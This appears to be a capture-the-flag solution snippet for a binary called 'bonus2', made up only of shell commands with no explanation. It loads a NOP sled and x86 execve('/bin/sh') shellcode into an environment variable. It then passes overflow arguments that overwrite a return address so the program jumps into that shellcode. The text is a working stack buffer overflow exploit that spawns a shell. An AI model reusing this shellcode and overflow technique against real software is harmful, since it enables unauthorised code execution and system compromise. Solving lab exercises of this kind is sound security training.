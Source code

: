 LANG=nl
export YOLO=`python -c "print '\x90' * 200 + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
./bonus2 `python -c 'print "A"*40'` `python -c 'print "B"*23 + "\x32\xfe\xff\xbf"'`